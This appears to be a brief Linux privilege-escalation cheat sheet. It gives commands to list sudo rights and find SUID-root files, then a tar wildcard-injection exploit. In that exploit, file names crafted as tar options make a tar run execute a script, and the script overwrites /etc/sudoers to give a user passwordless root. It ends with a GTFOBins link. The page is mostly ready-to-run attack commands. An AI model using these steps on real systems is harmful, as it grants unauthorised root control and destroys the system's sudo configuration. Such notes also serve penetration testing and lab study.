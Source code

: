 # Privilege Escalation

## Find the applications that this user can run as sudo
`sudo -l`

## Find files with SUID permissions
`find / -user root -perm -4000 -exec ls -ldb {} \;`
`find / -perm -u=s -type f 2>/dev/null`

## tar exec example
`echo 'echo "ignite ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > demo.sh`
`echo "" > "--checkpoint-action=exec=sh demo.sh"`
`echo "" > --checkpoint=1`
`tar cf archive.tar *`

`tar cf archive.tar --checkpoint=1 --checkpoint-action=exec=sh demo.sh`

## gtfobins
https://gtfobins.github.io/gtfobins/

